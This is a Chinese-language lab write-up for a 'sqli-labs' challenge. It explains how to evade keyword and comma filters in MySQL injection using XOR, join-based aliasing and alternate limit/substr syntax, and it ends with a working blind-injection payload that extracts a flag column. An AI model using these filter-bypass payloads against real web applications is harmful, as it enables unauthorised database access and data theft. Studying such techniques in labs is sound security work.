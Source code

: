 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01df619c6166390917.png)

### 

### <a class="reference-link" name="sqli-labs"></a>sqli-labs

user 表（大概）：

<th style="text-align: left;">**id**</th><th style="text-align: left;">**user**</th><th style="text-align: left;">**pass**</th><th style="text-align: left;">**flag**</th>
|------
<td style="text-align: left;">1</td><td style="text-align: left;">xxx</td><td style="text-align: left;">xxx</td><td style="text-align: left;">flag`{`you_get_the_flag`}`</td>

先是 and or &amp; |被过滤，导致逻辑表达会有些麻烦，但是我们依然有异或运算符^，由于 id 字段是字符串，在 mysql 中与 0 等价，由于 0^1=1，0^0=0，故语句的真假就是查询结果的真假

由于 flag 被过滤，无法用 select flag from user 来查 flag，所以要用别名代替，但是别名代替有 select 1,2,3,4 有逗号，所以用 join 再代替（空格换成 `/` **`a`** `/` 即可）：

```
union select * from (select 1)a join (select 2)b join (select 3)c%23
```

等同于：

```
union select 1,2,3
```

同样

```
limit 1 offset 2
```

等同于：

```
limit 2,1
```

以及

```
substr(database() from 5 for 1)
```

等同于：

```
substr(database(),5,1)
```

因此 payload 构造如下：

```
?id=1' ^ (ascii(mid((select `4` from (select * from (select 1)a join (select 2)b join (select 3)c join (select 4)d union select * from user)e limit 1 offset 1) from 1 for 1))&gt;0) ^ (1=1)%23
```
